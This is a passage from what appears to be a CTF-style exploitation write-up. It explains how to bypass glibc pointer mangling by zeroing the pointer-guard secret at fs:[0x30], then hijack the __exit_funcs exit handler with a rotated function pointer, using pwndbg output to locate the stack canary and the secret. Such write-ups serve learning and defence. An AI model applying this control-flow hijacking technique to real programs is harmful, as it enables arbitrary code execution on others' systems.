 They utilize random secret value located at `fs:[0x30]`. We can look it up using the gdb:

```c
pwndbg> p $fs_base 
$1 = 0x7f4a9f284740
pwndbg> tele 0x7f4a9f284740 0x40
00:0000│  0x7f4a9f284740 ◂— 0x7f4a9f284740
01:0008│  0x7f4a9f284748 —▸ 0x7f4a9f285160 ◂— 0x1
02:0010│  0x7f4a9f284750 —▸ 0x7f4a9f284740 ◂— 0x7f4a9f284740
03:0018│  0x7f4a9f284758 ◂— 0x0
04:0020│  0x7f4a9f284760 ◂— 0x0
05:0028│  0x7f4a9f284768 ◂— 0x868b6bf393ba8900
06:0030│  0x7f4a9f284770 ◂— 0x45ec9e616a9ffde0
07:0038│  0x7f4a9f284778 ◂— 0x0
... ↓     56 skipped
pwndbg> canary
AT_RANDOM = 0x7fffce4f00c9 # points to (not masked) global canary value
Canary    = 0x868b6bf393ba8900 (may be incorrect on != glibc)
Found valid canaries on the stacks:
00:0000│  0x7fffce4efce8 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efd48 ◂— 0x868b6bf393ba8900
00:0000│  0x7fffce4efed8 ◂— 0x868b6bf393ba8900
```

Value at `0x7f4a9f284770` is our secret value. Yes - it is next to stack cookie, and we can easily read it because our vm stack is allocated just before page which contains the secret, but... do we really need to read it? The answer is "no" - we can overwrite it with 0, so `xor` instruction in `PTR_DEMANGLE` snippet will do nothing, so the situation is even better! We can call our function and pass the argument to it. All we need to do is to set `fn` (we need to rotate it (`rol`) by 0x11 first) and `args` struct members in existing `exit_function` struct or create our own. Both ways are easy to implement. I've decided to go with the first option because I see that there is already defined exit hook (output truncated):

```c
pwndbg> p __exit_funcs
$2 = (struct exit_function_list *) 0x7f4a9f4a1f00 <initial>
pwndbg> p initial
$3 = {
  next = 0x0,
  idx = 0x1,
  fns = {{
      flavor = 0x4,
      func = {
        at = 0xc257eba67b408bd9,
        on = {
          fn = 0xc257eba67b408bd9,
          arg = 0x0
        },
        cxa = {
          fn = 0xc257eba67b408bd9,
          arg = 0x0,
          dso_handle = 0x0
        }
      }
    }, {
}
```
